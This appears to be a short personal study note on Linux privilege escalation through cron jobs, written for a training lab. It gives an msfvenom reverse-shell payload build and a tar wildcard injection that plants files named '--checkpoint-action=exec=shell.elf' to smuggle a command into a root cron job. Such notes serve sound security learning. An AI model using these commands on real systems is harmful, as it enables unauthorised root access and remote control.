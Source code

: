 - Check for **Writeable & Executable** crontabs in `/etc/crontab`
- Look at the Path ENV Variables for fun locations
    - ie: `/home/user`
- Wildcarding can be dangerous
    - `tar *` could allow shell payload to be placed in the directory
    - Example:
[[MSFVenom]] #priv_esc #Linux
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

```
chmod +x /home/user/shell.elf
```
Create these two files in /home/user:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```